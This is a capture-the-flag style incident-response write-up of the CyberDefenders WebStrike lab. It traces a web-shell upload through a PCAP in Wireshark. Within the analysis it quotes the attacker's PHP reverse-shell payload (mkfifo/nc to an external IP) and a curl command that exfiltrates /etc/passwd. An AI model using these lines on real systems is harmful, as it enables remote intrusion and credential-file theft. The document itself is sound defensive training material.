





# WebStrike - Lab 1: Investigating a Suspicious File Upload

A forensic walkthrough of malicious web activity captured via PCAP, analyzed using Wireshark to identify attacker behavior, uncover vulnerabilities, and determine the scope of unauthorized access.


## Demo Video


**Full Video Walkthrough**: 

[Click here to watch on YouTube](https://youtu.be/c0VsVmQ7IYs)


## Lab Scenario

A suspicious file was discovered on a company web server. The Development team flagged the anomaly, and a PCAP file of the relevant network traffic was captured. Your task: trace the attacker's activity, understand how the file was uploaded, and determine what (if anything) was exfiltrated.


## Tools Used

- **Wireshark** (for full traffic analysis)
- **IP Geolocation** services
- **PCAP** file provided via Cyber Defenders
- Markdown and screenshots for documentation

---

## Summary of Findings

| Question | Answer |
|------------|-----------|
| **1. City of attack origin** | Tianjin |
| **2. Attacker's User-Agent** | `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0` |
| **3. Name of malicious web shell** | `image.jpg.php` |
| **4. Upload directory** | `/reviews/uploads/` |
| **5. Outbound communication port** | `8080` |
| **6. File targeted for exfiltration** | `/etc/passwd` |

---

## Walkthrough

### 1. Identifying the geographical origin of the attack helps in implementing geo-blocking measures and analyzing threat intelligence. From which city did the attack originate?

- Used **Wireshark** to analyze IPv4 endpoints  
  

- Identified `117.11.88.124` as external attacker IP  
- Verified geolocation using [ipgeolocation.io](https://ipgeolocation.io)  
  
- The attack originated from Tianjin, China
- **Answer** - Tianjin

---

### 2. Knowing the attacker's User-Agent assists in creating robust filtering rules. What's the attacker's Full User-Agent?

- Followed the HTTP stream from the attacker:
  

- Revealed full User-Agent:  
  `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`
- **Answer** - `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`
---

### 3. We need to determine if any vulnerabilities were exploited. What is the name of the malicious web shell that was successfully uploaded?

- Applied filter:  
  ```wireshark
  ip.src == 117.11.88.124 and http.request.method == "POST"
- Two upload attempts observed:
  - First failed: `image.php`
  - Second succeeded: `image.jpg.php`
    
- The attacker successfully bypassed the server's validation by appending .jpg to the filename
- **Answer** - image.jpg.php
---

### 4. Identifying the directory where uploaded files are stored is crucial for locating the vulnerable page and removing any malicious files. Which directory is used by the website to store the uploaded files?

- File was successfully uploaded via `upload.php`
- Reviewed the server's HTTP response behavior
- Server returned `301 Moved Permanently`, redirecting to `/reviews/uploads/`
  
- Followed this redirect, `image.jpg.php` was accessible at that path
- The website stores uploaded files in the `/reviews/uploads/` directory
- **Answer** - `/reviews/uploads/`
---

### 5. Which port, opened on the attacker's machine, was targeted by the malicious web shell for establishing unauthorized outbound communication?

- Extracted PHP payload:
  ```php
  <?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f"); ?>
- Indicates outbound connection to attacker on port 8080
- **Answer** 8080
---

### 6. Recognizing the significance of compromised data helps prioritize incident response actions. Which file was the attacker attempting to exfiltrate?

- Used Wireshark filter:
  ```wireshark
  tcp.port == 8080 and ip.src == 24.49.63.79
- Found `curl -X POST -d /etc/passwd http://117.11.88.124:443/` in the TCP stream
- The attacker was attempting to exfiltrate `/etc/passwd`
- **Answer** - `passwd`
---

## Lessons Learned

- Importance of proper file validation on upload endpoints
- How attackers use filename obfuscation to bypass filters
- Value of network traffic inspection during incident response
- How reverse shells exploit outbound connections
- Role of User-Agent and IP analysis in filtering and threat intel
---

## Key Takeaways

- Developed comfort navigating raw PCAPs in Wireshark to track attacker behavior
- Gained hands-on experience identifying file upload vulnerabilities and reverse shell tactics
- Practiced translating technical findings into IR-style documentation with real-world relevance


## References

- [CyberDefenders – WebStrike Lab](https://cyberdefenders.org/blueteam-ctf-challenges/webstrike/)
- [Wireshark](https://www.wireshark.org/)
- [ipgeolocation.io](https://ipgeolocation.io/)

